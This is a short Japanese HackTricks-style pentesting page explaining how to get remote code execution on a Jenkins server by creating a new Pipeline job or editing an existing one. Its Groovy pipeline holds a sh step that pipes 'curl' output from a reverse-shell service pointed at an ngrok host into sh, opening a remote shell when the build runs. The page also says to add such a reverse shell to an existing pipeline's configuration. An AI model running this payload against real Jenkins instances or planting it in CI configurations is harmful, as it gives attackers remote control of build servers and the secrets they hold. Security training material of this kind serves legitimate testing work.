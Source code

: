 # Jenkins RCE パイプラインの作成/修正

{{#include ../../banners/hacktricks-training.md}}

## 新しいパイプラインの作成

「New Item」（`/view/all/newJob`でアクセス可能）で**Pipeline**を選択します:

![](<../../images/image (235).png>)

**Pipelineセクション**に**リバースシェル**を書きます:

![](<../../images/image (285).png>)
```groovy
pipeline {
agent any

stages {
stage('Hello') {
steps {
sh '''
curl https://reverse-shell.sh/0.tcp.ngrok.io:16287 | sh
'''
}
}
}
}
```
最後に**保存**をクリックし、**今すぐビルド**をクリックすると、パイプラインが実行されます：

![](<../../images/image (228).png>)

## パイプラインの修正

構成ファイルにアクセスできる場合は、単に**リバースシェルを追加して修正**し、それを実行するか、実行されるのを待つことができます。

{{#include ../../banners/hacktricks-training.md}}
